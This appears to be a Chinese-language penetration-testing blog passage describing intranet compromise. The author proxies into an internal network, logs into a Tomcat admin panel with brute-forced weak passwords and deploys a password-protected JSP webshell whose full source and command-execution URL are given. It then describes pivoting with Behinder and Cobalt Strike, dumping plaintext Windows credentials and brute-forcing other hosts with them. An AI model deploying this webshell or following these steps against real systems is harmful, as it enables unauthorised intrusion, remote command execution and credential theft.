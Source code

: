 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwwBKTmYj2CorwOsZ17hDsB2nEFMg71rTCYkTiciaOvqt6Gs1TpBDzQ2RQ/640?wx_fmt=png)

对于如何将浏览器的流量带入对方内网的 WEB 服务。我这里通过火狐的代理服务器来进行访问内网的 WEB 服务器，这样就可以不用进行全局代理了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwq0cv83twOhas3CGVrbTgSNOHztmekZZcHSvxYv4cgulBhHdkQsqKFw/640?wx_fmt=png)

通过扫描发现了 http://10.10.12.16:8080 开启了 tomcat 服务。使用之前爆破出来的弱口令进行后台登陆，这里可以直接部署 webshell 了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwVaFhTWicribnm2LZ0diaeaCjwHp3PLT256Ma0mLTpHCHFNxxDNy081FHg/640?wx_fmt=png)

首先在本地这里下如一个 jsp 的小马上去。执行命令格式：

http://URL:port/1/1.jsp?pwd=023&i=whoami

<%< span="">

    if("023".equals(request.getParameter("pwd"))){

        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();

        int a = -1;

        byte[] b = new byte[2048];

        out.print("

```
");
```

        while((a=in.read(b))!=-1){

            out.println(new String(b));

        }

        out.print("");

    }

%>

部署上去之后就可也执行命令了，这里他返回的权限比较搞，是 system 最高权限

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwPfkca68micTzyxREE2qAGoKPRiaznn4IKZeTCY4dZpmzWU3F4qvO1bqg/640?wx_fmt=png)

对于内网的 webshell 上传连接其实也很简单，这里使用冰蝎来作为 webshell 客户端，这台机器我测试了它的 tomcat 并没有把服务开放到外网（如果开放的话早就被日穿了哈哈哈），这里上传到了 webshell 上去之后呢需要在冰蝎客户端设置代理进入到对方的内网中才能连接

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwAVu7uyYB3HS93IqvvYppibfk1ibicjBNibHb7FHncdTmhgugaWXzGIlq5g/640?wx_fmt=png)

既然是最高权限了，那么我就直接上线到 CS 上面再来获取它的凭证信息。由于这是一台 windows 2008 的系统，直接获取到明文信息

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwgFAUL7I5yZsfRW0NCwS1rSorg3DMSDUqYUKq02mQ81DArDu5tOibxUQ/640?wx_fmt=png)

接着整理这些密码对这个网段的主机进行暴力破解，也成功获取了一些主机。除了 windows 主机之外呢，其实还可以来利用这些密码来破解一些 Linux 主机的 root 密码。windows 破解到了密码之后呢我一般喜欢就是上线到 CS 或者 MSF，然后通过管理员权限来 dump 下机器上面的密码，如果机器上面有管理员密码的话那就一劳永逸了！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIw8kDInOZo8OW0Q93micrWH3pDm68Yia0vxfcx0fhqWiaHG3XjnpV9ksOiaA/640?wx_fmt=png)

